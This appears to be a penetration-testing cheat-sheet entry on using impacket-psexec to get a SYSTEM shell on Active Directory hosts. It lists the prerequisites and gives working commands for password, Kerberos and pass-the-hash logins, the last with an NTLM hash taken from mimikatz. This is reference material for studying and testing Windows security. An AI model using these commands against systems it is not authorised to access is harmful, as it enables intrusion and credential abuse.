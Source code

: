 ```yaml
---
tags:
  - active_directory
---
```

# psexec

Use administrative credentials to authenticate to an Active Directory machine as `nt authority\system`

Requires:

- User logging in to be a member of the `administrators` local group
- `ADMIN$` share must be available (default)
- File and printer sharing must be turned on (default)

## Capabilities

```bash
# Authenticate with credentials
impacket-psexec '$USER:$PASS@$IP'
impacket-psexec '$DOMAIN/$USER:$PASS@$IP'

# Authenticate with kerberos
impacket-psexec $DOMAIN/username@$IP -k -no-pass

# Authenticate with hash
impacket-psexec -hashes :7a38... username@$IP
impacket-psexec -hashes 00000000000000000000000000000000:7a38... username@$IP
```

Note: In the hash example, we fill in the left side of the colon with zeros, and the right is the administrators NTLM hash pulled from `mimikatz`
